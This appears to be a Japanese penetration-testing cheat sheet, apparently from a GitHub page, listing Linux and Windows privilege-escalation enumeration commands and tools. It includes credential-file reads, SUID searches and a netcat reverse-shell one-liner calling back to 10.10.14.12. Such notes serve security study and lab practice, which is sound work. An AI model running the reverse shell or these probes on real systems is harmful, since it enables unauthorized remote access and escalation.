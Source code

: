 # Linux 権限昇格

### 基本チェック
`whoami`  
`id`  
`hostname`
`cat /etc/issue`  
`cat /etc/*-release`  
`cat /etc/passwd`  

`ps -aux`  
`ip -a`  
`netstat -ano`  
`/sbin/route`  
`ss -anp`  

`ls -lah /etc/cron*`  
`cat /etc/crontab`
`grep "CRON" /var/log/cron.log`

`dpkg -l`  
`find / -writable -type d 2>/dev/null`

`cat /etc/fstab`  
`mount`  

`/bin/lsblk`  
`lsmod`  
`/sbin/modinfo <module>`  

`find / -perm -u=s -type f 2>/dev/null`  


### 自動ツール
## unix-privesc-check  
`/bin/bash ./unix-privesc-check standard > output.txt`  
`/bin/bash ./unix-privesc-check detailed > output.txt`
http://pentestmonkey.net/tools/audit/unix-privesc-check


### 定期実行プロセスの調査


### sudo設定確認

許可されているコマンドの一覧を表示  
`sudo -l`

###  権限昇格用コマンドまとめ

reverse shell  
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.12 4443 >/tmp/f

基本ここで検索すればOK  
https://gtfobins.github.io/

# Windows 権限昇格

### 基本チェック
`whoami`  
`net user`  
`net user <ユーザ名>`  
`hostname`

`systeminfo | findstr /B /C:"OS Name" /C:"OS Version" /C:"System Type"`  

`tasklist /SVC`  
`ipconfig /all`  
`route print`  
`netstat -ano`

`netsh advfirewall show currentprofile`  
`netsh advfirewall firewall show rule name=all`  
`schtasks /query /fo LIST /v`

`./windows-exploit-suggester.py --update`
`./windows-exploit-suggester.py --database 2021-03-08-mssb.xls --systeminfo systeminfo.txt`
xlrdがバージョン新しいとエラーはく可能性あり
`pip install xlrd==1.2.0`
